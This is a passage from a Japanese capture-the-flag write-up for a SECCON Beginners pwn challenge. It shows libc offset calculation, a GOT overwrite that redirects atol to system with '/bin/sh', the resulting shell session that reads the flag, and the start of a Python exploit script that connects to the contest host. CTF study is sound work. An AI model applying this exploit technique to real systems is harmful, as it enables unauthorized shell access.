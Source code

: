 ```python

print(s.recv(2048))
time.sleep(1)
```
上記のコードを先ほどのコードに追記します．
不明な点はありますがなんとかlibcのアドレスを取得できました．次のステップでは`system`関数のアドレスを計算します．

#### ステップ3
`system`関数のアドレスを計算して求めましょう．
まずはlibcのベースアドレスを求めます．ステップ2で求めたのは`__libc_start_main+231`でした．
`__libc_start_main`のアドレスは以下のようにして見つけることができました．
```
$ objdump -S -M intel ./libc-2.27.so | grep libc_start_main
0000000000021ab0 <__libc_start_main@@GLIBC_2.2.5>:
```
従って，libcのベースアドレスは`[__libc_start_main+231の値] - 0x21ab0 - 231`となります．
次にlibcのsystem関数のアドレスを取得します．
```
$ objdump -S -M intel ./libc-2.27.so | grep libc_system
000000000004f440 <__libc_system@@GLIBC_PRIVATE>:
```
従って，system関数のアドレスは`system = libc_base + 0x4f440`で求めることができます．
ステップ4に進みましょう．

#### ステップ4
system関数のアドレスがわかったので`atol@got`を書き換えましょう．引数には`/bin/sh`を入れます．
入力バッファは現在`malloc@got`からとっています．`atol(buf)`(現在は`printf(buf)`を指している)は`atol`を`system`に書き換えると，`system(buf)`として実行されます．つまり，入力する値は`"/bin/sh\0" + systemのアドレス`とすれば`system("/bin/sh")`が呼び出されます．
以下をコードに追記してください．
```python
s.sendall(b"/bin/sh\0" + system.to_bytes(8, 'little'))

print(s.recv(2048))
print("[info] success to exploit!!!")
t = telnetlib.Telnet()
t.sock = s
```
実行するとフラグを得ることができました．
```
[info] success to exploit!!!
ls
chall
flag.txt
redir.sh
cat flag.txt
ctf4b{4bus1ng_st4ck_d03snt_n3c3ss4r1ly_m34n_0v3rwr1t1ng_r3turn_4ddr3ss}
```

#### 攻撃コード
今回作成したコードはこちら．pwntools使えるように勉強しなくては．
```python
import socket, time, telnetlib


malloc_got = 0x601038
printf_plt = 0x400590
libc_start_main_symbol = 0x21ab0
libc_system = 0x4f440

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('es.quals.beginners.seccon.jp', 9003))

print(s.recv(2048).decode())
time.sleep(1)

```